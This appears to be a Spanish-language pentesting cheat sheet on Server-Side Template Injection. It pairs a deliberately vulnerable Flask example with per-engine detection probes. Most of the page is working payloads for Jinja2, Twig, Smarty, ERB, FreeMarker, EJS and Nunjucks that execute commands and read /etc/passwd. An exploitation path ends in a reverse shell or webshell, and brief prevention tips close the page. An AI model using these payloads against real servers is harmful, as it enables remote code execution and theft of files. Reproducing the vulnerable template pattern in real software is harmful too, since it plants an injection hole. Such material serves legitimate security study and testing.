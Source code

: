 # 🗂️ SSTI – Server-Side Template Injection (Obsidian Edition)

## 🔹 Índice

- [Qué es SSTI](#qu%C3%A9-es-ssti)
    
- [Tecnologías afectadas](#tecnolog%C3%ADas-afectadas)
    
- [Identificación de la vulnerabilidad](#identificaci%C3%B3n-de-la-vulnerabilidad)
    
- [Explotación por lenguaje](#explotaci%C3%B3n-por-lenguaje)
    
    - [Python (Jinja2/Django)](#python-jinja2django)
        
    - [PHP (Twig/Smarty)](#php-twigsmarty)
        
    - [Ruby (ERB/Liquid)](#ruby-erbliquid)
        
    - [Java (Thymeleaf/FreeMarker)](#java-thymeleaffreemarker)
        
    - [Node.js (EJS/Nunjucks)](#nodejsejsnunjucks)
        
- [Payloads útiles](#payloads-%C3%BAtiles)
    
- [Rutas de explotación](#rutas-de-explotaci%C3%B3n)
    
- [Prevención](#prevenci%C3%B3n)
    

---

## Qué es SSTI

> **Definición:** Vulnerabilidad que permite inyectar código en plantillas del lado servidor, pudiendo generar **ejecución remota de código (RCE)**.

- **Cómo ocurre:** Los datos del usuario se insertan en plantillas sin **escape ni validación**, permitiendo que se ejecuten como código.
    

**Ejemplo conceptual (Python/Jinja2)**:
```

from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get("name")
    template = f"Hello {name}!"
    return render_template_string(template)
```

## Tecnologías afectadas

|Lenguaje|Motores de Plantillas|
|---|---|
|Python|Jinja2, Mako, Django|
|PHP|Twig, Smarty|
|Ruby|ERB, Liquid|
|Java|Thymeleaf, FreeMarker|
|Node.js|EJS, Nunjucks|

---

## Identificación de la vulnerabilidad

### Prueba básica por motor:

```
`Jinja2/Django: {{7*7}}`
`Twig (PHP): {{7*7}}`
`Smarty (PHP): {$smarty.const.SEVEN*7}`
`ERB (Ruby): <%= 7*7 %>`
`Liquid (Ruby): {{ 7*7 }}`
`Thymeleaf (Java): ${7*7}`
`FreeMarker (Java): ${7*7}`
`EJS (Node.js): <%= 7*7 %>`
`Nunjucks (Node.js): {{ 7*7 }}`
```


### Prueba avanzada

- Exposición de variables internas:
    

`Jinja2: {{ config.items() }} Twig: {{ _self }} ERB: <%= defined?(Rails) %>`

- Acceso a objetos del sistema:
    

`Jinja2: {{ ''.__class__.__mro__[1].__subclasses__() }}`

---

## Explotación por lenguaje

### Python (Jinja2/Django)

`1️⃣ Confirmar SSTI: {{7*7}} → 49 2️⃣ Enumerar clases: {{ ''.__class__.__mro__[1].__subclasses__() }} 3️⃣ Ejecutar comandos: {{ ''.__class__.__mro__[1].__subclasses__()[40]('id', shell=True, capture_output=True).stdout }} 4️⃣ Leer archivos: {{ ''.__class__.__mro__[1].__subclasses__()[40]('cat /etc/passwd', shell=True, capture_output=True).stdout }}`

### PHP (Twig/Smarty)

`# Twig básico {{ 7*7 }} # Ejecutar comando {{ _self.env.getGlobals()._REQUEST|exec('id') }} # Leer archivo {{ _self.env.getGlobals()._REQUEST|file_get_contents('/etc/passwd') }}`

`{$smarty.const.PHP_OS} {php} system('id'); {/php} # RCE`

### Ruby (ERB/Liquid)

``# ERB <%= 7*7 %> <%= `id` %>           # Comando <%= File.read('/etc/passwd') %>  # Leer archivo``

`{{ 7*7 }}  # Limitado, sandbox`

### Java (Thymeleaf/FreeMarker)

`<!-- Thymeleaf --> <span th:text="${7*7}"></span> <!-- FreeMarker --> ${7*7} <#assign r="freemarker.template.utility.Execute"?new()>${r("id")}`

### Node.js (EJS/Nunjucks)

`# EJS <%= 7*7 %> <%= require('child_process').execSync('id') %>`

`# Nunjucks {{ 7*7 }} {{ 'string' | attr('constructor')('return global.process')() }}`

---

## Payloads útiles

|Objetivo|Python|PHP/Twig|Ruby/ERB|Java/FreeMarker|Node.js/EJS|
|---|---|---|---|---|---|
|Ejecutar comando|`subprocess.Popen(...)`|`exec('cmd')`|`` `cmd` ``|`Execute("cmd")`|`child_process.execSync('cmd')`|
|Leer archivos|`cat /etc/passwd`|`file_get_contents`|`File.read`|`Execute("cat /etc/passwd")`|`fs.readFileSync('/etc/passwd')`|
|Listar directorios|`ls -la`|`scandir`|`Dir.entries('.')`|`Execute("ls -la")`|`fs.readdirSync('.')`|
|Variables internas|`config.items()`|`_self`|`defined?(Rails)`|`config`|`process.env`|

---

## Rutas de explotación

1. **Identificación:** Probar con payloads simples (`7*7`).
    
2. **Enumeración:** Buscar variables y clases disponibles.
    
3. **Ejecución:** Probar comandos simples (`id`, `whoami`).
    
4. **Lectura:** Archivos sensibles (`/etc/passwd`, `config.php`).
    
5. **Escalada:** Shell reversa o webshell según permisos.
    

---

## Prevención

- No renderizar plantillas con datos del usuario sin filtrar.
    
- Usar escape automático (`autoescape=True`).
    
- Validar y sanitizar entradas.
    
- Revisar permisos de ejecución de funciones críticas (`exec`, `system`, etc.).
    
- Limitar exposición de variables y objetos internos.